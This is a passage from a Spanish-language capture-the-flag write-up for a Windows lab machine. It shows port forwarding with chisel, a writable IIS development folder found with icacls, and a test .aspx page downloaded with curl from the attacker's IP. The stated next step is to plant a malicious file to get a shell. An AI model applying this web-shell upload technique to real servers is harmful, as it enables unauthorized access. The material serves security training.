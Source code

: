 Descárgando chisel en la máquina para efectuar redireccionado de puertos desde nuestro puerto 8000 encontramos que es un servidor IIS 10.0... sin un archivo de índice

![No index](/assets/writeups/flight/7.png)

Pero, al estar en modo desarrollo nos muestra la ruta de los archivos que se supone hostea, es `C:\inetpub\development`, mirando esta carpeta se encuentra otra carpeta con el mismo nombre de development y, ¡tenemos permisos de escritura en ella!

{% highlight powershell %}
PS C:\inetpub\development> ls 
ls 


    Directory: C:\inetpub\development


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----         5/6/2023   4:22 PM                development                                                           


PS C:\inetpub\development> icacls development
icacls development
development flight\C.Bum:(OI)(CI)(W)
            flight\C.Bum:(I)(OI)(CI)(W)
            NT SERVICE\TrustedInstaller:(I)(F)
            NT SERVICE\TrustedInstaller:(I)(OI)(CI)(IO)(F)
            NT AUTHORITY\SYSTEM:(I)(F)
            NT AUTHORITY\SYSTEM:(I)(OI)(CI)(IO)(F)
            BUILTIN\Administrators:(I)(F)
            BUILTIN\Administrators:(I)(OI)(CI)(IO)(F)
            BUILTIN\Users:(I)(RX)
            BUILTIN\Users:(I)(OI)(CI)(IO)(GR,GE)
            CREATOR OWNER:(I)(OI)(CI)(IO)(F)

Successfully processed 1 files; Failed processing 0 files
{% endhighlight %}

Por lo que podríamos intentar colocar un archivo malicioso para ganar una consola interactiva como el usuario que corre el servidor IIS, asi que vamos a intentar colar un archivo .asp o .aspx con el siguiente contenido para verificar que dicha extensión se procesa:

{% highlight vb %}
'test.aspx'

<%
  Response.Write("Hallo man?")
%>
{% endhighlight %}

{% highlight powershell %}
PS C:\inetpub\development\development> curl -o test.aspx http://10.10.14.39:8001/test.aspx
{% endhighlight %}

Probando con .asp no funcionó pero con .aspx sí

![Hallo](/assets/writeups/flight/8.png)

